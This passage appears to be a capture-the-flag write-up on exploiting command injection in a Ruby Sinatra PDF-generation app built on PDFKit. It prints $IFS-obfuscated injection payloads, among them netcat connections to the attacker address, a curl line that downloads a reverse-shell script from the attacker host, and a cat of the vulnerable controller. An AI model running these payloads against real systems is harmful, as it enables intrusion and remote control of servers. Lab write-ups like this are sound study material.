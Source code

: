 - I can't open a connection with netcat: `IP=10.10.14.49;PORT=4444;nc$IFS$IP$IFS$PORT`
    
    I would have used it to write to file: `FILE=revshell.sh;IP=10.10.14.49;PORT=4444;nc$IFS$IP$IFS$PORT|tee$IFS$FILE`

    at least the ping works so there are no firewall rules: `IP=10.10.14.49;ping$IFS-c1$IFS$IP`
    ```html
    Directory listing for /?ping=
    PING 10.10.14.49 (10.10.14.49) 56(84) bytes of data.
    64 bytes from 10.10.14.49: icmp_seq=1 ttl=63 time=36.7 ms
    --- 10.10.14.49 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 36.731/36.731/36.731/0.000 ms
    ```

- `cat$IFS/var/www/pdfapp/app/controllers/pdf.rb`
    ```ruby
    class PdfControllers < Sinatra::Base

    configure do
        set :views, "app/views"
        set :public_dir, "public"
    end

    get '/' do
        erb :'index'
    end

    post '/' do
        url = ERB.new(params[:url]).result(binding)
        if url =~ /^https?:\/\//i
        filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
        path = 'pdf/' + filename

        begin
            PDFKit.new(url).to_file(path)
            cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
            send_file path, :disposition => 'attachment'
        rescue
            @msg = 'Cannot load remote URL!'
        end

        else
            @msg = 'You should provide a valid URL!'
        end
        erb :'index'
    end
    end
    ```

    there are no special checks, it just runs `PDFKit`

- I try to download a reverse shell:

    `FILE=revshell.sh;IP=10.10.14.49;PORT=8000;curl$IFS-o$IFS$HOME/$FILE$IFS$IP:$PORT/$FILE`
